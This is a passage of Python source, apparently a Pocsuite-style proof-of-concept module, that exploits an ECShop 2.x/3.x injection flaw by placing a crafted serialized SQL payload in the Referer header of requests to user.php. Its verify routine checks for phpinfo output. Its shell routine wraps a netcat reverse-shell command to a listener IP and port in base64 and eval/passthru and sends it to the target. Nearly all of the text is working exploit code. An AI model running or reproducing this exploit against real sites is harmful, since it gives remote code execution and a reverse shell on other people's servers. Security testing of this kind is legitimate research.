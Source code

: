 ```
        for echash in echashs:
            payload = ('{0}ads|a:2:{{s:3:"num";s:116:"*/ select 1,0x2720756E696F6E202F2A,3,4,5,'
                       '6,7,8,0x7b24616263275d3b6563686f20706870696e666f2f2a2a2f28293b2f2f7d,10'
                       '-- -";s:2:"id";s:10:"\' union /*";}}{0}').format(echash)
            headers = {"Referer": payload}
            try:
                resp = requests.get(url, headers=headers)
                if resp and resp.status_code == 200 and "<title>phpinfo()</title>" in resp.text:
                    result['VerifyInfo'] = {}
                    result['VerifyInfo']['URL'] = url
                    result['VerifyInfo']['Referer'] = payload
                    break
            except Exception as ex:
                pass

        return self.parse_output(result)

    def parse_output(self, result):
        output = Output(self)
        if result:
            output.success(result)
        else:
            output.fail('target is not vulnerable')
        return output

    def _attack(self):
        return self._verify()

    def _shell(self):
        path = "user.php"
        url = urljoin(self.url, path)
        echashs = [
            '554fcae493e564ee0dc75bdf2ebf94ca',  # ECShop 2.x hash
            '45ea207d7a2b68c49582d2d22adf953a'  # ECShop 3.x hash
        ]

        cmd = REVERSE_PAYLOAD.NC.format(get_listener_ip(), get_listener_port())
        phpcode = 'passthru("{0}");'.format(cmd)
        encoded_code = base64.b64encode(phpcode.encode())
        postdata = {
            'action': 'login',
            'vulnspy': 'eval/**/(base64_decode({0}));exit;'.format(encoded_code.decode()),
            'rnd': random_str(10)
        }

        for echash in echashs:
            payload = '{0}ads|a:3:{{s:3:"num";s:207:"*/ select 1,0x2720756e696f6e2f2a,3,4,5,6,7,8,0x7b247b2476756c6e737079275d3b6576616c2f2a2a2f286261736536345f6465636f646528275a585a686243676b5831425055315262646e5673626e4e77655630704f773d3d2729293b2f2f7d7d,0--";s:2:"id";s:9:"'"'"' union/*";s:4:"name";s:3:"ads";}}{1}'.format(echash, echash)
            headers = {"Referer": payload}
            try:
                resp = requests.post(url, data=postdata, headers=headers)
                if resp and resp.status_code == 200 and "<title>phpinfo()</title>" in resp.text:
                    break
            except ReadTimeout:
                break
            except Exception as ex:
                pass


register_poc(DemoPOC)

```
